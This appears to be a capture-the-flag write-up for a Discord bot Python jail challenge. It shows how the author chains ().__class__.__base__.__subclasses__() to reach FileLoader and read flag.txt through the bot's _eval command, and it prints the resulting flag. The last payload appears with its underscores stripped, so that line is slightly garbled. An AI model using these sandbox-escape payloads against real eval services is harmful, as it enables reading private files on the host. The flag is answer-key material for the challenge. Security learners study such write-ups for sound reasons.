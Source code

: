 # Kieth Bot

TL;DR:
Get a list of available classes:
```python
_eval return "".join([ ( c.__name__.ljust(7,"\n")) for c in ().__class__.__base__.__subclasses__()]) 
```

Get the file:
```python
_eval return [c for c in ().class.base.subclasses() if c.name=="FileLoader"][0]("./flag.txt","./flag.txt").get_data("./flag.txt")
```
This one's real fun. It really makes you delve into the python docs.

So first, let's consider the one important command of this discord bot:

_eval

I used some help from previous writeups after a teammate found some and sent them to me. It helped confirm that I was going in the right direction.

Now, it doesn't mean that we can just copy and paste their solution. I'm in a rush so I'm going to skip over all of my experimenting and screwing about

The past writeups for similar problem tell us that we're looking to leverage some preset python attributes that are present in every class, along with an empty tuple (which will be the class we use as a jumping-off point) in order to get a class that we can use to read "flag.txt"

This bit here will give us a dict of a crap ton of subclasses, a few (or one) of which we can use to read the flag. This is where you can start if you read past similar writeups. The issue becomes getting a list of subclasses that we can use.
```python
().__class__.__base__.__subclasses__()
```
but we can't just take that and return it, beacuse if we do, the discord bot gives us nothing in response
```python 
_eval return ().__class__.__base__.__subclasses__() # nothing. no message in return
```
Now I suspect this is because the builtins are gone, and the dict is not getting stringified

We can't use str() to get a string out of it, because the builtins are gone (argh!)

So instead, we try to do the .toString() equivalent in python

```python 
_eval return ().__class__.__base__.__subclasses__().__str__() # nothing. no message in return
```
but this also returns nothing

there is an alternative function though called __repr__() that could return a string
```python 
_eval return ().__class__.__base__.__subclasses__().__repr__() # nothing. no message in return
```
Still, no response.

So after a lot of screwing around, I ended up with this:
```python
_eval return "".join([ ( c.__name__.ljust(7,"\n")) for c in ().__class__.__base__.__subclasses__()]) 
```
I figured out I can use .join after googling something along the lines of "PHP implode but for python" (basically JavaScript's unsplit)
Turns out, we can join arrays back into stirngs using the .join method. For some reason, I couldn't get any delimiter except for an empty string to work (hence `"".join...`)
I could also not figure out how to concat stuff within that weird array filtration thing, I even tried hacking .join but I couldn't get any meaningful delimiter. 
I didn't waste too much time doing this delimiter BS beacuse I ended up spotting "FileLoader". 

I looked at the docs for FileLoader and realized that it's a valid way to get a File from the system, and we can see the bytes using .get_data(). I didn't read the usage very well, but I was in aa rush so what the heck, we'll make all the paramters the same

So we do some array filtration to get the FileLoader class, we instantiate it and then we get the file containing the flag

```python 
_eval return [c for c in ().class.base.subclasses() if c.name=="FileLoader"][0]("./flag.txt","./flag.txt").get_data("./flag.txt")
```
b'hsctf{discord_bot_pyjail_uwu_030111}\n'

